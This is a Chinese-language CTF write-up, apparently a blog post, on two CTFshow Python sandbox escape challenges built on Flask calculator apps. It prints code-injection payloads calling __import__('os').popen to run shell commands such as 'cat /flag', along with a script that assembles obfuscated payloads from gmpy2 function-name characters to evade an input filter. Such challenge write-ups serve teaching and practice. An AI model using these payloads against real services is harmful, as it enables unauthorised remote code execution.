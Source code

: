 ```yaml
---
title: CTFshow 菜狗杯 python沙箱逃逸
swiper_index: 6
categories:
    -网络安全
tags:
  - python
  - ctfshow
  - RCE
abbrlink: 1
date: 2022-11-29 08:47:00
description: 酱紫？
updated: 2022-11-29 08:47:00
---
```


# CTFshow 算力超群
映入眼帘的是计算器，既然是计算器，说不定跟命令执行有关，抓个包看看
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/1.png" align='left'/>
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/2.png" align='left'/>

可以知道是用number1，operator和number2这三个变量控制数字1，符号和数字2，搞不好把数字换成别的会有意外惊喜，先把三个参数变成空
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/3.png" align='left'/>

报错了，还是flask模块，由报错找到了命令执行的地方，现在三个都为空，一个个试试看python命令执行代码
可知python进行系统命令执行需要os模块
那么直接使用\___import\___动态模块调用
Payload: \___import\___('os').popen('pwd').read()

<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/4.png" align='left'/>

Number1和operator都返回了 error，只有number2返回了正确结果，可能前面两个有什么奇怪的过滤吧

<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/5.png" align='left'/>


也尝试了一下system，subprocess，和commands模块，都没法用
system只是返回了0（状态号），不返回结果，其他两个也没法用

<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/6.png" align='left'/>

好，那接下来就开始找flag，这里想看一下根目录有啥，发现加了空格就报错了，可能是url编码的问题，换成+就没事了，成功找到flag

<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/7.png" align='left'/>
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/8.png" align='left'/>
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/9.png" align='left'/>
<br>
## python命令执行
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/10.png" align='left'/>
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/11.png" align='left'/>
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/12.png" align='left' width="%20" />

# CTFshow 算力升级

{% tip info %}
python沙箱逃逸：绕过模拟的 Python 终端，最终目标就是执行系统任意命令
{% endtip %}

代码审计
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/13.png" align='left' width="%20" />
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/14.png" align='left' width="%20" />

计算题，很明显是命令执行，但是有限制，需要绕过，这里限制了只能输入数字，但是这里有个例外，可以使用gmpy2库中的函数，打开本地看一看
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/15.png" align='left' width="%20" />

找到了**__builtins__**这个内建函数,这个函数是可以使用eval的
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/16.png" align='left' width="%20" />

那要怎么使用**__builtins__**中的eval呢，**利用gmpy2模块的函数进行拼接**，{% span cyan, 新姿势 %}

看下面这段代码
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/17.png" align='left'/>

[\]里的数只是用来选取数组编号的,那'remove'\[1\]就是remove的第二个字符e
原来是这样，那只要活用gmpy2模块的函数截取字符串拼接成\__builtins\__中的函数就可以了
先在本地测试一下 

``` 
gmpy2.__builtins__['eval'](eval(__import___('os').popen('whoami').read())) 
```

<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/18.png" align='left'/>

记住调用的方式,先用中括号将要调用的方法括起来
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/19.png" align='left'/>

官方提供了payload生成脚本
```
s="__import__('os').popen('cat /flag').read()"

import gmpy2

payload="gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]("

for i in s:
        if i not in "/'(). ":
                temp_index=0
                temp_string='x'*20
                for j in dir(gmpy2):
                        if j.find(i)>=0:
                                if len(j)<len(temp_string):
                                        temp_string=j
                                        temp_index=j.find(i)
                payload+=f'\'{temp_string}\'[{temp_index}]+'
        else:
                payload+=f'\"{i}\"+'

payload=payload[:-1]+')'
	
print(payload)
```

```
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cmp'[0]+'ai'[0]+'cot'[2]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")
```
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/20.png" align='left'/>

## python内建函数

要做这题的话需要了解一下\___builtins\___这个内建函数

{% tip info %}
什么是内建函数？
在启动python解释器后，即使没有创建任何的函数和变量，还是有许多函数能够使用，比如max(),len()等等
我们把这些函数称为内建函数，因为它们不需要我们去定义，在启动python解释器的时候，就已经导入到内存中供我们使用了
{% endtip %}
<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/21.png" align='left'/>

内建函数也是函数，虽然我们没有导入，那它们是存在于哪里呢？
其实准确的来说，python解释器启动后首先加载的是内建名称空间，内奸名称空间有许多名字到对象的映射，而这些名字其实就是内建函数的名字，对象就是这些内建函数本身，（注意区分函数名称和函数对象的区别），这些名称空间由\___builtins\___模块中的名字构成

<img  src="https://source.bugcarrot.top/articles/cfscgb/pyjail/22.png" align='left'/>
可以看到有一个__builtins__模块，这个模块本身定义了一个名称空间，即内建名称空间，dir（）的结构就是上上图

{% tip info %}
什么是名称空间？
在python中，所谓名称空间其实是指名称（标识符）到对象的映射，在python程序的正常执行过程中，至少存在两个名称空间
如果定义了函数，还会有局部名称空间，全局名称空间一般由程序员在程序的全局变量和他们对应的映射对象组成，而局部名称空间则在函数内部由函数函数局部变量和他们对应的映射对象组成
+ 内建名称空间 + 全局名称空间
{% endtip %}
